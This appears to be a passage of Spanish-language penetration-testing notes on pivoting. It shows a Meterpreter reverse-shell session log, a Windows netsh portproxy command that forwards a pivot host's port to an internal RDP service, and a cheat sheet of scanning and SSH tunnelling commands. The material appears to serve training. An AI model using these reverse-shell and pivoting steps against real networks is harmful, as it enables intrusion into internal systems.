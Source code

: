 ```python
[*] Started reverse TCP handler on 0.0.0.0:8081 
[*] Sending stage (200262 bytes) to 10.10.14.18
[*] Meterpreter session 2 opened (10.10.14.18:8081 -> 10.10.14.18:40173 ) at 2022-03-04 15:26:14 -0500

meterpreter > shell
Process 2336 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```

# Reenvío de puertos con Windows Netsh

#### Usando Netsh.exe para reenviar puertos

Reenvío de puertos con Windows Netsh

```python
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```

#### Verificación de reenvío de puerto

Reenvío de puertos con Windows Netsh

```python
netsh.exe interface portproxy show v4tov4

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
10.129.42.198   8080        172.16.5.25     3389
```

Después de configurar el `portproxy`En nuestro host pivot basado en Windows, intentaremos conectarnos al puerto 8080 de este host desde nuestro host de ataque usando xfreerdp. Una vez que se envía una solicitud desde nuestro host de ataque, el host de Windows enrutará nuestro tráfico de acuerdo con la configuración del proxy configurada por netsh.exe.

### Hoja de Comandos

| Dominio                                                                                                                                                                                                            | Descripción                                                                                                                                                                                                                                                                                           |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `ifconfig`                                                                                                                                                                                                         | Comando basado en Linux que muestra todas las configuraciones de red actuales de un sistema.                                                                                                                                                                                                          |
| `ipconfig`                                                                                                                                                                                                         | Comando basado en Windows que muestra todas las configuraciones de red del sistema.                                                                                                                                                                                                                   |
| `netstat -r`                                                                                                                                                                                                       | Comando utilizado para mostrar la tabla de enrutamiento para todos los protocolos basados ​​en IPv4.                                                                                                                                                                                                  |
| `nmap -sT -p22,3306 <IPaddressofTarget>`                                                                                                                                                                           | Comando Nmap utilizado para escanear un destino en busca de puertos abiertos que permitan conexiones SSH o MySQL.                                                                                                                                                                                     |
| `ssh -L 1234:localhost:3306 Ubuntu@<IPaddressofTarget>`                                                                                                                                                            | Comando SSH utilizado para crear un túnel SSH desde una máquina local en el puerto local `1234` a un destino remoto mediante el puerto 3306.                                                                                                                                                          |
| `netstat -antp \| grep 1234`                                                                                                                                                                                       | Opción Netstat utilizada para mostrar las conexiones de red asociadas con un túnel creado. Usando `grep` para filtrar según el puerto local `1234` .                                                                                                                                                  |
| `nmap -v -sV -p1234 localhost`                                                                                                                                                                                     | Comando Nmap utilizado para escanear un host a través de una conexión que se ha realizado en el puerto local `1234`.                                                                                                                                                                                  |